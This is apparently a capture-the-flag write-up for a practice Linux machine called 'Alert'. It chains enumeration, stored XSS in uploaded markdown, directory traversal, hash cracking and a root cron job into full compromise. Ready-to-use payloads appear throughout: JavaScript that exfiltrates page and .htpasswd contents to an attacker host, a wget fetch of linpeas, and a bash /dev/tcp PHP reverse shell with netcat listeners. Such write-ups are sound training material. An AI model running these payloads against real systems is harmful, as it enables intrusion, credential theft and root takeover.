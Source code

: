 # Alert

```
Difficulty: Easy
Operating System: Linux
Hints: True
```

### 🏁 Summary of Attack Chain

| Step | User / Access | Technique Used | Result |
| :-- | :--- | :--- | :--- |
| 1 | `N/A` | **Nmap Scan** | Performed initial enumeration using **Nmap** to discover open ports. Identified ports `22` (SSH) and `80` (HTTP) were open. |
| 2 | `N/A` | **Subdomain Enumeration** | Used **`ffuf`** to perform host header fuzzing, which revealed the subdomain `statistics.alert.htb`. |
| 3 | `N/A` | **XSS & LFI Chaining** | Exploited a stored **XSS** vulnerability in the markdown upload feature to exfiltrate the contents of an internal `messages` page. This led to the discovery of a **Local File Inclusion (LFI)** vulnerability via a `file` parameter. |
| 4 | `albert` | **LFI with Directory Traversal** | Used the LFI vulnerability with directory traversal (`../../`) to read the `.htpasswd` file from the `statistics` subdomain. This file contained the hash for the user `albert`. |
| 5 | `albert` | **Hash Cracking & SSH Login** | Used **`john the ripper`** with the `rockyou.txt` wordlist to crack the `albert` hash. Used the recovered password to log in via **SSH** and get the `user.txt` flag. |
| 6 | `root` | **Privilege Escalation** | Enumerated the system and discovered a local service on port `8080`. Also found a writable directory `/opt/Website_Monitor/` where a PHP script was being executed as **root** by a cron job. Created a reverse shell payload in a PHP file and placed it in the directory. |
| 7 | `root` | **Reverse Shell** | Set up a Netcat listener and waited for the cron job to run. The script was executed as `root`, which triggered the reverse shell and granted full administrator privileges, allowing for retrieval of the `root.txt` flag. |

### **1. Initial Reconnaissance** 

First, run an **Nmap** scan to identify open ports and services.

```bash
nmap -sC -sV -T4 -Pn alert.htb
```

This scan reveals two open ports:

  * **Port 22:** SSH
  * **Port 80:** HTTP (Apache web server)

-----

### **2. Gaining a Foothold** 

The website on port 80 allows the upload of markdown files. We'll use a **host header fuzzing** tool to find subdomains.

```bash
ffuf -w /usr/share/wordlists/main.txt -u http://alert.htb -H "Host:FUZZ.alert.htb" -ac
```

This command discovers the **statistics.alert.htb** subdomain.

The core of the initial exploit is a **Cross-Site Scripting (XSS)** vulnerability. We will use a stored XSS payload in a markdown file to exfiltrate the contents of an internal page, `index.php?page=messages`.

Create a markdown file (`payload.md`) with the following content:

```html
<script>
fetch("http://alert.htb/index.php?page=messages")
.then(response => response.text())
.then(data => {
  // Replace <ATTACKER_IP> with your IP address
  fetch("http://<ATTACKER_IP>/?data=" + encodeURIComponent(data));
})
.catch(error => console.error("Error fetching the messages:", error));
</script>
```

Set up a simple Python web server to capture the exfiltrated data:

```bash
python3 -m http.server 80
```

Now, upload the `payload.md` file to the website and copy the sharing link. When the administrator visits the link, your server will receive the HTML content of the `messages` page. Analyzing this content reveals a link with a file parameter: `messages.php?file=...`.

This indicates a **Local File Inclusion (LFI)** vulnerability. We'll use this vulnerability with directory traversal to read the `.htpasswd` file from the **statistics** subdomain.

Create a new markdown file (`lfi_payload.md`) with the following JavaScript payload:

```html
<script>
fetch("http://alert.htb/messages.php?file=../../../../../../../var/www/statistics.alert.htb/.htpasswd")
.then(response => response.text())
.then(data => {
  // Replace <ATTACKER_IP> with your IP address
  fetch("http://<ATTACKER_IP>:8888/?file_content=" + encodeURIComponent(data));
});
</script>
```

Start a new web server on a different port (e.g., 8888) to receive the hash:

```bash
nc -lvnp 8888
```

Upload this new markdown file and share the link. The hash will be sent to your Netcat listener:

```
albert:$apr1$bXXXXXXXXXXXXXXXXXXXXXXXXXXXXx/
```

Save this hash to a file (e.g., `hash.txt`) and use **John the Ripper** to crack it with the `rockyou.txt` wordlist.

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt --format=md5crypt-long hash.txt
```

The cracked password allows you to log in via SSH.

```bash
ssh albert@alert.htb
```

-----

### **3. Privilege Escalation** 

Once you have a shell as `albert`, run a comprehensive enumeration script like **LinPEAS** to find a path to root.

```bash
wget http://<ATTACKER_IP>/linpeas.sh
chmod +x linpeas.sh
./linpeas.sh
```

The `linpeas.sh` output highlights two key findings:

1.  A service is running locally on **port 8080**.
2.  The `/opt/Website_Monitor/` directory is writable by your user, and a cron job runs PHP files inside it as **root**.

First, forward the local port 8080 to your machine using an **SSH tunnel**.

```bash
ssh -L 8080:127.0.0.1:8080 albert@alert.htb
```

Now, create a PHP reverse shell payload and place it in the vulnerable directory.

```bash
cd /opt/Website_Monitor/
echo '<?php exec("/bin/bash -c '\''bash -i >& /dev/tcp/<ATTACKER_IP>/100 0>&1'\''); ?>' > shell.php
```

Set up a Netcat listener on your machine to catch the root shell.

```bash
nc -lvnp 100
```

Wait a few minutes for the cron job to run. The PHP script will execute, sending a reverse shell to your listener, giving you root access.